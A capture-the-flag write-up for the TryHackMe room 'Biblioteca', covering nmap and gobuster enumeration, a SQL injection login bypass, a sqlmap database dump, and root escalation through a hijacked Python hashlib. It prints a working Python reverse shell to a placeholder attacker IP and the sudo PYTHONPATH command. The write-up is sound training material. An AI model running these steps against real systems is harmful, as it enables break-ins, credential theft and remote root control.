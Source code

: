 # TryHackMe Biblioteca Write-up

Below is my write-up for the TryHackMe room [Biblioteca](https://tryhackme.com/room/biblioteca).

We start up the machine, and we can start with a Nmap scan.

`nmap -sC -sV <IP Address>`

![NmapScanBiblio](/THM/Images/thmbiblionmap.jpg)

The results provide us with two open ports.

- SSH port 22
- HTTP port 8000

We find a login page on the landing. The first thing to do is find any other folders or pages we can access. For that, we can enumerate using `gobuster`.

![BiblioTHMLandin](/THM/Images/thmbibliohttplanding.jpg)

These are the results from `gobuster` enumeration. The command used was.

`gobuster dir -u http://<IP ADDRESS> -w /usr/share/wordlists/dirb/common.txt`

![BiblioGobuster](/THM/Images/thmbibliogobuster.jpg)

We can create a user. Once we log in, it just takes us to an index page with only a logout option.

If we try `1' or '1'='1';-- -` , we can see that the login form is vulnerable to SQL injection.

We can then use `sqlmap` to extract table data.

`sqlmap -u http://<IP ADDRESS>:8000/login --data='username=''&password=''' --current-user --dump`

Breaking down the command 

```bash 
-u http://<IP ADDRESS>:8000/login  # the flag refers to the target URL
--data= 'username=''&password=''' # Data string to be sent through POST (e.g. "id=1")
--current-user --dump # --current-user Retrieve DBMS current user --dump DUMP DMBS Database table entries.
```

`sqlmap` provides us with the following table.

![BiblioSQLMAPresults](/THM/Images/thmbibliosqlmap.jpg)

We found the table with the users. We can now try the password found with the username to SSH into the machine. 

Excellent, we are in with the password found. We can see that the user has limited surface points to privilege escalation. Let's see what other users have to know if we can move sideways. We can see two others can have access. Let us focus on hazel. 

![BiblioSmokeyAccess](/THM/Images/thmbibliosmokey.jpg)

We can either break the password by guessing or using a hydra attack on the ssh port now that we know the username and password.

Great, we now have our first flag. Let's look at what hazel can run. 

![BibliootheruserAccess](/THM/Images/thmbiblioaccesstoroot.jpg)

Hazel can run a specific python file as `sudo` without requiring a password. If we look at the python file, we can see it is a script that takes the user's input and then provides a hash of the input in various formats. The part that interests us is that it calls for a specific library `hashlib`. So we can hijack the python library by making one on the local folder. However, we are unable to create files in our home directory.

So we will need to redirect the python path. In this instance, we will copy the  `hashlib.py` file in the `/tmp` folder. So we can modify it.

Since we are running it as `sudo`. We will add a reverse shell at the start of the file. 

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<YOUR IP>",<LISTENING PORT>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

If we set up a listener on our machine, we can then listen out for the reverse shell. We then can run the file by specifying the python path.

`sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py`

Great that gives us a reverse shell as root and we can find the last flag.

![Bibliotecaroot](/THM/Images/thmlastflag.jpg)

Overall, it was a good machine to practice the basics. 